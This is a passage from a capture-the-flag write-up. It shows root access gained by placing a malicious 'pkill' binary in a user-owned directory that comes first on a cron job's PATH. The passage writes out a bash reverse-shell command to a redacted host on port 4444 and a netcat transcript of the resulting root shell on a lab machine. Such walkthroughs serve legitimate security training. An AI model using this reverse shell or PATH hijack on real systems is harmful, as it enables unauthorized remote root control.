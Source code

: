 The hacker is first setting the path to '/home/lachlan/bin:/bin:/usr/bin' which means it will check the '/home/lachlan/bin' folder for binaries first. Then the cron is running commands to kill any connections. Most of the commands are using absolute paths however, 'pkill' is not. So if I can add a file in '/home/lachlan/bin/' with the name 'pkill' that should be executed with the permissions of root.

The lachlan user owns the bin folder so if I can log in using SSH and execute the commands quickly enough I should be able to create the file before the session is killed.

I copied the following command to my clipboard:

echo "/bin/bash -c '/bin/bash -i >& /dev/tcp/{{REDACTED}}/4444 0>&1'" > /home/lachlan/bin/pkill; chmod +x /home/lachlan/bin/pkill

I restarted my netcat listener, SSH'd to the machine as lachlan and pasted the command. A second later I got a shell!

{% highlight shell %}
$nc -nvlp 4444
listening on [any] 4444 ...
connect to [{{REDACTED}}] from (UNKNOWN) [10.10.212.207] 41998
bash: cannot set terminal process group (4040): Inappropriate ioctl for device
bash: no job control in this shell
root@b2r:~# 
{% endhighlight %}

Thats root!

Thanks for reading!

==========================================================================

Any comments or feedback welcome! You can find me on [twitter](https://twitter.com/dazbrownfield).

<a href="https://www.buymeacoffee.com/dazbrownfield" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/v2/default-blue.png" alt="Buy Me A Coffee" style="height: 60px !important;width: 217px !important;" ></a>
